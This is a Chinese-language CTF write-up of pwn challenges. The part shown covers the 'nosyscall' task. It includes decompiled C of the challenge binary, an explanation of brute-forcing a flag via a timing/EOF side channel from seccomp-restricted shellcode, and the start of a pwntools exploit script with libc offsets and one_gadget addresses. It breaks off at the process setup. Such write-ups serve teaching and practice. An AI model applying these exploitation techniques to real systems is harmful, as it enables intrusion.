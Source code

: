 ```yaml
---
title: xman冬令营/NullCon2019/BUUCTF 部分pwn writeup
categories:
- CTF writeup
---
```


# xman冬令营/NullCon2019/BUUCTF 部分pwn writeup

## xman冬令营选拔赛

### 前言

一共四个题，kernel放弃了，arm本地通了远程失败，format最后队友出了就懒得调了。

### nosyscall

#### 程序分析

逻辑很简单，可以写0x10的shellcode并执行，禁了所有的系统调用，开始flag读到了一个mmap的地址里，这里用`cmp`爆破，正确就报错EOF否则回到开头死循环卡住。

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  void *v3; // ST10_8
  void *buf; // ST18_8
  FILE *v6; // [rsp+8h] [rbp-28h]

  sub_B91();
  v6 = fopen("./flag.txt", "r");
  if ( !v6 )
    exit(1);
  v3 = mmap((void *)0x200000000LL, 0x2000uLL, 3, 34, -1, 0LL);
  buf = mmap((void *)0x300000000LL, 0x20000uLL, 7, 34, -1, 0LL);
  _isoc99_fscanf(v6, "%s", v3);
  printf("Your Shellcode >>", "%s");
  read(0, buf, 0x10uLL);
  sub_C34();
  ((void (__fastcall *)(_QWORD, void *))buf)(0LL, buf);
  return 0LL;
}
```

#### exp.py

遇到EOF手动ctrl+z，进入死循环ctrl+c，之后手动加下dis

```py
#coding=utf-8
from pwn import *
import string
from time import sleep
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 0
elf = ELF('./chall')
bak = '{}_'+string.ascii_lowercase + string.digits
libc_offset = 0x3c4b20
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./chall')

```